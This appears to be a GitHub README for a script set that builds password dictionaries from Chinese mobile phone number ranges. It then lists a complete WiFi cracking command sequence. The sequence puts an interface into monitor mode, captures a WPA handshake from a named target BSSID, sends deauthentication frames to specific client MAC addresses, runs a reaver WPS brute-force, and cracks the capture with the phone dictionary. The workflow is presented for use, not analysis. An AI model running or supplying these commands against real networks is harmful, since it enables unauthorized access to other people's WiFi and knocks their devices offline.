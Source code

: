# Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

`fetch_url.py` fetches all phone number regions from [www.51hao.cc](http://www.51hao.cc)
`load_phone_region.py` loads phone numbers to sqlitedb
`phone_dict_gen.py` will generate the phone dicts

## Crack cmd
```bash
# Enable monitor mode
```bash
sudo airmon-ng start wlan0
```

# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa wlan1mon -c 6

###################################################################
# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --bssid ${tgt} -w ${tgt}.cap wlan1mon -c 2

# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # 
# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} wlan1mon
clientvic=74:E2:F5:33:23:D4
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} wlan1mon

###################################################################

sudo reaver -i wlan1mon -b ${tgt} –a –S –vv –d 0  -c 11


caps=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${caps}

# Crack
aircrack-ng -l wpakey.txt -w ~/phone_dict_gen/phone.dict ${caps}
```
